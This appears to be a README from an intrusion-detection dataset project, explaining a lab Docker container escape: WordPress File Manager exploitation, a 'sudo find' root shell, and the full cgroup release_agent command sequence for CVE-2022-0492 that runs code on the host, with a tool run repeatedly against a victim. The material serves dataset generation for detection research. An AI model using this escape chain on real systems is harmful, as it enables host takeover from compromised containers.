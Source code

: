 # **Docker Escape**

## **Table of Contents**
* [Explaining the attack](#explaining-the-attack)
* [How to Use](#how-to-use)
  * [Configurations](#configurations)
  * [Repeat mode](#for-repeat-mode)
* [Troubleshooting](#troubleshooting)
  * [Docker Escape attack fails on the reverse shell phase](#docker-escape-attack-fails-on-the-reverse-shell-phase)

## **Explaining the attack**
---

<br/>

Docker containers are well known, documented and simple to get started with, however we need to keep in mind the way they are used and especially the permissions these containers have.

This attack simulates the situation where a web server is running inside a Docker container, used for purposes of isolation, where the developer gave the container the ability to use the mount command.

This can be achieved by adding a capability to the container which has the mount command and disabling the apparmor, since it contains a black list for capabilities. This situation can also be achieved by executing the container with the [--privileged](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities) flag.

In our case we went with:

```
cap_add:
    - SYS_ADMIN
security_opt:
    - apparmor:unconfined
```

`cap_add` will add the SYS_ADMIN capability which will give the container the ability to execute mount.

`security_opt:` will disable the default docker apparmor profile allowing us to use the mount command.

<br/>

After getting access to the system with the Wp File Manager vulnerability ([CVE-2020-25213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213)) we need to get root permissions within the container in order to break the isolation, for that we simulated a misconfiguration where the www-data user is able to use only one command with sudo which is `sudo find`.

The attack is as follows:

* Gain initial access through the Wp File Manager vulnerability.
* Execute `sudo find . -exec /bin/sh \; -quit ` which will spawn a root shell
* Exploit Linux Kernel's cgroup_release_agent vulnerability ([CVE-2022-0492](https://nvd.nist.gov/vuln/detail/cve-2022-0492)) by executing the following commands:
  * `mkdir /tmp/cgroup_mount`
  * `mount -t cgroup -o rdma cgroup /tmp/cgroup_mount/`
  * `mkdir /tmp/cgroup_mount/test`
  * `echo 1 > /tmp/cgroup_mount/test/notify_on_release`
  * `dir=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)`
  * `echo $dir"/escapingDocker" >  /tmp/cgroup_mount/release_agent`
  * `echo '#!/bin/sh' > /escapingDocker`
  * `echo 'ps aux >> '$dir'/output' >> /escapingDocker`
  * `echo 'echo "PoC, injected through the container" > /File_on_Host' >> /escapingDocker`
  * `chmod a+x /escapingDocker`
  * `sh -c "echo \$$ > /tmp/cgroup_mount/test/cgroup.procs`

<br/>

This script will execute `ps aux` on the host and write the output in a file inside docker `/output` to show that we can execute code in the host and be able to read the result.
After that, it will create a file `/File_on_Host` with the content `PoC, injected through the container` so that the user can swiftly check by himself that the attack was successful.

<br/>

## **How to use**
---
<br/>

This exploit can be ran in **repeat** mode.

From the **/path/to/project/IDS-Dataset/Attacks/WP** folder,

<br/>

### **Configurations:**

If you built the victim machine from scratch using our script you can use the following settings for the Docker escape attack:

``` Shell
sudo python3 main.py -c # To start the configuration process

Attacker ip: # Check the ip address with ' ifconfig '
Victim ip: # Check the ip address with ' ifconfig '
Exploit: 3
HTTPS: n
Victim Port: 8080
Activate auditing: y # Make sure the server is on, check Aux README for information
```

<br/>


### **For Repeat mode:**
``` Shell
sudo python3 main.py -r {number_times} # Don't forget to configure the config.ini on the 1st attack
```

OR

``` Shell
sudo python3 main.py # Don't forget to configure the config.ini on the 1st attack
```

This will execute the commands mentioned [above](#explaining-the-attack).

<br/>

## **Troubleshooting**
---

### **_Docker Escape attack fails on the reverse shell phase_:**
At the end of the setup process of the victim machine you will be instructed to execute some steps in order finish setting up what wasn't possible through the script. In you modified the Docker machine, or had to re-build it you might want to re-run through this steps:

* Access http://localhost:8080 and follow the installation steps
* Access the Plugins tab and Activate the Wp File Manager plugin
* Execute in the terminal -> ```shell docker exec $(docker ps | grep docker_wordpress | awk '{ print $1 }') bash -c "chown -R www-data:www-data /var/www/html/wp-content/"```


This will setup the Docker machine to be in the exact same state it was during development.
